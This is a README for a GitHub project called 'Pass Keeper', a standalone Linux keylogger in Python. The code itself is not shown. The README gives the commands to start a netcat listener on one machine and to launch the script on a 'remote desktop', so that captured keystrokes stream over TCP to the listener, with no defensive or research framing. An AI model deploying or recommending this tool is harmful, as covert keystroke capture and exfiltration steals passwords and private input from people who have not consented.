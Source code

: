 # Pass Keeper
Standalone Key logger over tcp for Linux (Python 3.X)
- Using Xlib from: https://github.com/python-xlib/python-xlib
- Using pyxhook from: https://github.com/JeffHoogland/pyxhook

## How to use

### On listener desktop

Launch a netcat or other tcp server in listening mode
```
nc -nlvp 1234
```

You can also redirect the output in a file
```
nc -nlvp 1234 > file.txt
```

### On remote desktop

1. Download the project on the desktop

2. Launch the script pass_keeper.py with two arguments (Destination IP Address and Destination Port)
```
python3 pass_keeper.py 127.0.0.1 1234
```
